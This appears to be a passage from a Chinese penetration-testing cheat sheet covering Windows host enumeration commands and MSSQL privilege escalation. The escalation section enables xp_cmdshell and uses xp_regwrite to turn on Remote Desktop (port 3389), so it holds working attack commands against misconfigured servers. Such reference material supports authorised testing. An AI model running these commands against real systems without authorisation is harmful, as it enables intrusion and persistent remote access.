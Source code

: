 * **枚举系统**
  * 查看系统版本和架构
    ```powershell
    systeminfo
    ```

* **枚举网络**
  * 查看网卡
    ```powershell
    ipconfig /all
    ```
  * 查看路由
    ```powershell
    route print
    ```
  * 查看端口链接
    ```powershell
    netstat -ano
    ```
  
* **枚举安装的应用**
  * 我们可以使用Get-ItemProperty Cmdlet查询两个注册表项来列出Windows注册表中的32位和64位应用程序
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
* **枚举进程**
  * 显示所有进程
    ```powershell
    Get-Porcess
    ```
    
### 【windows MSSQL提权】

* **使用MSSQL配置不当提权**
  * （1）安装组件
    ```mssql
    安装cmd_shell组件
    EXEC sp_configure 'show advanced options', 1
    GO
    RECONFIGURE
    GO 
    EXEC sp_configure 'xp_cmdshell', 1
    GO
    RECONFIGURE
    GO
    ```
    ```mssql
    删除cmd_shell组件
    EXEC sp_configure 'show advanced options', 1
    GO
    RECONFIGURE
    GO
    EXEC sp_configure 'xp_cmdshell', 0
    GO
    RECONFIGURE
    GO
    ```
  * （2）开启3389
    ```mssql
    开启3389
    exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;--
    ```